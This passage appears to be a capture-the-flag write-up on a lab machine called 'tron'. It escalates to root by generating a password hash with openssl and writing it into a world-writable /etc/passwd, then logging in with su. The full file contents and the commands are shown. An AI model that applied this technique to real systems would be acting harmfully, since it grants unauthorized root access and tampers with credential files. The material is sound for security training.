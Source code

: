 ```shell
player@tron:/tmp$ ls -al /etc/passwd
-rw-r--rw- 1 root root 1491 Feb 18 20:08 /etc/passwd
player@tron:/tmp$ 
```

#### >> Use OpenSSL to generate a password hash. For example, to generate a SHA-512 password hash:
```shell
player@tron:/tmp$ openssl passwd -6 -salt xyz YourNewPassword
$6$xyz$D40Xiunwen0vq4qX8leZ1/B7.cGpEYJtOvLxWXBJpkJtRqhVKYdb5gYUWkVI6gRrcnFpl5Xc279s7Z7M0P5Ao1
player@tron:/tmp$ 
```

<strong>Now we paste this hash in /etc/passwd, replacing “x” in root</strong>

- root:x:0:0:root:/root:/bin/bash

```shell
root:$6$xyz$D40Xiunwen0vq4qX8leZ1/B7.cGpEYJtOvLxWXBJpkJtRqhVKYdb5gYUWkVI6gRrcnFpl5Xc279s7Z7M0P5Ao1:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
player:x:1000:1000:player,,,:/home/player:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

<strong>Once we replace hash we have access to root with password YourNewPassword</strong>
```shell
player@tron:/tmp$ su root
Password: 
root@tron:/tmp# 
root@tron:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@tron:~# ls /root
root.txt
root@tron:~# 
```
<br>
<center>pwned</center>